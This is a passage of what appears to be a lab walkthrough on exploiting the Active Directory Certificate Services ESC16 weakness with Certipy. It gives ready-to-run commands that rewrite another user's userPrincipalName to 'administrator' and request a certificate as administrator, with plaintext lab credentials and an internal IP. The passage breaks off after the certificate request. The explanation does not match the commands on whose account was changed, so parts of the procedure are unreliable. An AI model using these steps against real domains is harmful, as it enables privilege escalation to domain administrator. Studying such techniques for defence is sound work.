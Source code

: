 The output confirms the **ESC16 vulnerability**, indicating the extension `1.3.6.1.4.1.311.25.2` is disabled, which weakens the binding between certificates and user accounts — a prerequisite for abusing ESC16.


## Exploitation of ESC16 Vulnerability Using Certipy

Step 1: Update UserPrincipalName (UPN) of martin

Using the credentials of user jcharles, we update martin userPrincipalName to impersonate another user (administrator):

```
certipy account -u 'jcharles' -p 'complex1@' -target 'furious.local' -upn 'administrator' -user 'martin' update
```

<img src="assets/adcs-esc16/image5.png" alt="Error loading image">

- his modifies the userPrincipalName attribute for jcharles to administrator.
- Allows jcharles to request certificates for the administrator identity.

Step 2: Verify the Attribute Update

```
certipy account -u 'jcharles' -p 'complex1@' -dc-ip 192.168.129.140 -user 'jcharles' read
```

<img src="assets/adcs-esc16/image6.png" alt="Error loading image">

Confirms userPrincipalName is now set to administrator.

Step 3: Request Certificate as administrator

```
certipy req -dc-ip '192.168.129.140' -u 'administrator' -p 'complex1@' -target 'furious.local' -ca 'furious-DC01-FURIOUS5-CA' -template 'User'
```
